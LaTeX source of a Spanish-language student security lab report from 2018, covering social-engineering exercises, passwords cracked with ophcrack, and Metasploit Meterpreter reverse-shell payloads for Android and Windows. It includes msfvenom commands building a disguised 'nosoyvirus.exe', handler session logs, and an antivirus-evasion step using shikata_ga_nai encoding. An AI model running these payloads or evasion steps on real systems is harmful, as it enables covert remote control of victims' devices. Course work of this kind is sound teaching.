%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% LaTeX Template: Project Titlepage Modified (v 0.1) by rcx
%
% Original Source: http://www.howtotex.com
% Date: February 2014
% 
% This is a title page template which be used for articles & reports.
% 
% This is the modified version of the original Latex template from
% aforementioned website.
% 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%-------------------------------------------------------------------------------
% TITLE PAGE
%-------------------------------------------------------------------------------

\documentclass[12pt]{report}
\usepackage[a4paper]{geometry}
\usepackage[myheadings]{fullpage}
\usepackage{fancyhdr}
\usepackage{lastpage}
\usepackage{graphicx, wrapfig, subcaption, setspace, booktabs}
\usepackage[T1]{fontenc}
\usepackage[font=small, labelfont=bf]{caption}
\usepackage{fourier}
\usepackage[protrusion=true, expansion=true]{microtype}
\usepackage[english]{babel}
\usepackage{biblatex}
\bibliography{references}
\usepackage{sectsty}
\usepackage{url, lipsum}
\usepackage{listings}
\usepackage{color}

\definecolor{mygray}{rgb}{0.9,0.9,0.9}

\lstset{
    backgroundcolor=\color{mygray}
}

\newcommand{\HRule}[1]{\rule{\linewidth}{#1}}
\onehalfspacing
\setcounter{tocdepth}{5}
\setcounter{secnumdepth}{5}

%-------------------------------------------------------------------------------
% HEADER & FOOTER
%-------------------------------------------------------------------------------
\pagestyle{fancy}
\fancyhf{}
\setlength\headheight{15pt}
\fancyhead[L]{Administración de Redes y Seguridad - 2018}
\fancyhead[R]{Toledo Margalef}
\fancyfoot[R]{Page \thepage\ of \pageref{LastPage}}


\begin{document}

\title{ \normalsize \textsc{Administración de Redes y Seguridad}
        \\ [2.0cm]
        \HRule{0.5pt} \\
        \LARGE \textbf{\uppercase{Trabajo Práctico 4}}
        \HRule{2pt} \\ [0.5cm]
        \normalsize \today \vspace*{5\baselineskip}}

\date{}

\author{
        Cátedra: \\
        Lic: Zappellini, Bruno Damian \\
\\
        Integrantes: \\
        Toledo Margalef, Pablo Adrian \\
        UNPSJB - Trelew}

\maketitle


\tableofcontents
\newpage

%-------------------------------------------------------------------------------
% Section title formatting
\sectionfont{\scshape}
%-------------------------------------------------------------------------------

%-------------------------------------------------------------------------------
% BODY
%-------------------------------------------------------------------------------

\section*{Apartado 1.1}
\addcontentsline{toc}{section}{TP 1.1}

1.

\begin{itemize}
    \item Carlitos desatiende su computadora mientras prende o baja los mails. Cualquiera que conozca sus hábitos puede aprovecharse de eso.
    \item photo.exe (mmmm)
    \item La conversación con El Dr. Secchi. No hay un procedimiento para pedir información de forma segura. Qué sabe Carlitos quién es Secchi?
    \item Quejarse de tantas claves.
    \item Conocer las claves de las computadoras de otras personas en la oficina y utilizarlas sin problema
\end{itemize} 
2.

\begin{itemize}
    \item 08:20: -> c
    \item 09:47: -> d
    \item 09:57: -> b
    \item 10:00: -> d
\end{itemize}

3.

Utilización de contraseñas más seguras. Mejor concientización en cuanto a la información que se transmite, mejores procedimientos. Concientizar sobre el uso de los equipos. Conciencia sobre el uso del correo personal en el ámbito de trabajo.

4.

\begin{itemize}
    \item Su escritorio no está ordenado, dejando copias de seguridad encima y no teniendo cuidado sobre qué está o no encima.
    \item Le pide su clave (\textbf{SU} clave) al administrador. Además le dice que es el nombre de la suegra, puede servir de guía para conseguirla en algún futuro.
    \item No pone llave a su oficina.
    \item La chica que limpia saca papeles que están sólo arrugados del tacho. Pueden contener información importante.
    \item Su computadora no tiene clave, vino su compañero y puso un pendrive y sacó la data que le hacía falta.
    \item El mozo se llava papeles y algo de plata, parece
\end{itemize}

5.

\texttt{30\% -> "No se "} 

\texttt{100\% -> "Carga! 3083 1"}

\texttt{Mis claves : 52\% y 22\% :(}

6. Sí, porque personalmente no poseo conocimiento de qué acciones me pueden poner en riesgo. Por lo tanto puedo estar corriendo peligro pero cómo no sé cómo ni por qué, estoy siendo un blanco fácil.

7. Resguardo de contraseñas, no las escribo en papel. No usar navegadores en máquinas ajenas, pero si no hay otra usar modos de incógnito. Hace poco me hice un pendrive con un tails, para aumentar la seguridad y la privacidad en caso de no tener mi computadora personal a mano.

8. Hacer una ronda de videos informativos sacados de internet. Las charlas TED son muy ilustrativas. Después hacer algunas redadas sorpresas de seguridad. Revisando al azar y en el momento las máquinas de los usuarios. 

Confeccionar carteles pequeños pero claros sobre el uso seguro de equipos. Algo que no llame mucho la atención pero que la gente recuerde.

\section*{Apartado 1.2}
\addcontentsline{toc}{section}{TP 1.2}

\subsubsection*{Crack de contraseñas de Windows}

Luego de la ejecución de la herramienta \texttt{ophcrack} utilizando el directorio especificado se encontraron los siguientes usuarios con sus contraseñas.

\begin{itemize}
    \item root: supervaca
    \item nico: q0w9e8r7t6y
    \item alumno: 1234
\end{itemize}

\section*{Apartado 1.3}
\addcontentsline{toc}{section}{TP 1.3}

\subsection*{Meterpreter}

\texttt{Meterpreter} es uno de los payloads provistos por \texttt{Metasploit Project} para el control de la pantalla de un dispositivo, para navegarm descargar y subir archivos.

El procedimiento para la utilización de \texttt{Meterpreter} y ejecutar un shell reverso en otro equipo podría resumirse en los siguientes pasos.

Utilizando \texttt{msfpayload} se genera el payload para el target deseado.

\texttt{\$ msfpayload android/meterpreter/reverse\_tcp LHOST=<IP del atacante> LPORT=<Puerto del atacante> > file.apk} 

Esto generará nuestro payload en un archivo .apk. Luego se instala dicho APK en un dispositivo Android. Se abre nuevamente en nuestra computadora msfconsole, luego:

\begin{enumerate}
    \item Abrir \texttt{msfconsole}
    \item Especificar el handler a utilizar.\\
        \texttt{\$ use exploit/multi/handler} 
    \item Con el comando \texttt{payload} especificar el target para el shell.\\
        \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item Setear \texttt{LHOST} y \texttt{LPORT} con la IP y puerto del equipo atacante.
    \item \texttt{exploit} para abrir la conexión con el shell reverso. El equipo quedará en espera.
\end{enumerate}

A partir de ese momento, si la víctima abre la aplicación instalada, el atacante ganará control total del equipo. Se establece la conexión y el atacante puede ejectuar comandos sobre el equipo atacado.

Vemos que desde el shell reverso se puede obtener información del sistema y manipular las funciones que posee el dispositivo. Como hacer un dump de las llamadas, de los mensajes de texto y hasta envíar SMS a través de la consola.

\subsubsection*{Meterpreter en windows}

Para realizar el mismo ataque en Windows, podría utilizarse, como sugiere el enunciado, un pdf, pero por no tener una máquina con WinXP se decidió utilizar un \texttt{.exe} como vector de ataque. Realizando el siguiente procedimiento.

\begin{lstlisting}[breaklines=true]
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.59.101.15 LPORT=4455 -f exe -o nosoyvirus.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 206403 bytes
Final size of exe file: 212992 bytes
Saved as: nosoyvirus.exe
\end{lstlisting}

Luego en el equipo atacante

\begin{lstlisting}[breaklines=true]
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > set lhost 10.59.101.15
lhost => 10.59.101.15
msf exploit(multi/handler) > set lport 4455
lport => 4455
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.59.101.15:4455
[*] Meterpreter session 1 opened (10.59.101.15:4455 -> 10.59.101.23:49159) at 2018-10-02 08:49:20 -0300

meterpreter > ls
Listing: C:\Users\pablo\Desktop
===============================

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
100777/rwxrwxrwx  120682992  fil   2018-10-01 09:33:59 -0300  AcroRdrDC1801120063_en_US.exe
100666/rw-rw-rw-  282        fil   2018-09-08 18:32:05 -0300  desktop.ini
100777/rwxrwxrwx  341        fil   2018-10-01 10:14:46 -0300  nosoyviru.exe
100777/rwxrwxrwx  212992     fil   2018-10-02 08:45:30 -0300  nosoyvirus.exe
100666/rw-rw-rw-  46214      fil   2018-10-01 10:08:01 -0300  nosoyvirus.pdf
\end{lstlisting}

Este \texttt{exe}, al abrirlo en un host con \texttt{Windows 7} (en mi caso) genera una conexión con el equipo atacante. Pudiendo controlar el equipo. Es posible realizar envío de mails, reproducción de sonido, captura de imágenes con la webcam. Una diferencia con el uso de meterpreter con android es la presencia de todas las opciones propias del sistema.

Para demostrar su poder abriremos una calculadora y tomaremos una screen de la siguiente forma.

\pagebreak

\begin{lstlisting}
meterpreter > execute -f calc.exe
Process 960 created.
meterpreter > screenshot
Screenshot saved to: /home/pablo/gitrepos/arys2018/practica/tp1/mLgIITFv.jpeg
\end{lstlisting}

\begin{figure}[!ht]
   \centering
   
\includegraphics[width=0.9\textwidth]{images/screen.jpeg}
   \caption{}
   \centering
\end{figure}

Al ejecutar meterpreter en windows, observamos que las opciones disponibles van de la mano con el dispositivo, pudiendo reproducir sonido, ejectuar cualquier proceso. Las opciones en Android varían pero tienen que ver con la capacidad del dispositivo de sacar fotos y poder geolocalizarse. Aún así ambas versiones son excelentes. Gran fan del stream de webcam en Android.

\subsection*{Análisis es virustotal}

Al subir ambos archivos se detectan amanezas an ambos casos.

\begin{figure}[!ht]
   \centering
   
\includegraphics[scale=0.3]{images/screent_vt1.png}
   \caption{}
   \centering
\end{figure}

\begin{figure}[!ht]
   \centering
   
\includegraphics[scale=0.3]{images/screent_vt2.png}
   \caption{}
   \centering
\end{figure}

Para evadir estas detecciones se puede encriptar, u ofuscar, el payload para que no sea detectado, dicho procedimiento se puede realizar utilizando la misma herramienta que utilizamos para generar los payloads, \texttt{msfvenom}, pero agregando la bandera de encriptación \texttt{-e}.

\begin{lstlisting}[breaklines=true]
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.103 LPORT=4455 -f exe -e x86/shikata_ga_nai -o nosoyvirus.exe
\end{lstlisting}

En la figura 4 podemos observar que las detecciones bajaron, de 36 en el archivo sin encritar, a 32 en el archivo encriptado.
\begin{figure}[!ht]
   \centering
